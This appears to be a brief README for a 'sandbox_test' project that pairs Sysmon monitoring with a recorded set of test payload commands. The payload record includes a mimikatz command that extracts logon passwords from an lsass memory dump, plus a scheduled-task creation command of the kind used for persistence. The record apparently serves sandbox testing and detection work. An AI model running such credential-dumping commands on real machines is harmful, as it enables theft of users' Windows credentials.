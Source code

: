 # sandbox_test

- sand.py: code
- Sysmon64.exe: sysmon
- sysmonconfig.xml: config

#### note: put Sysmon64.exe and sysmonconfig.xml in C:\Users\\{Username}\Documents

##### payload record:
SCHTASKS /Create /SC DAILY /TN "Open Notepad" /TR "notepad.exe" /ST 12:00

mimikatz.exe "sekurlsa::minidump lsass.dmp" "sekurlsa::logonPasswords full" exit
copy %USERPROFILE%\\Desktop\\SandboxFiles\\sysmonconfig.xml .
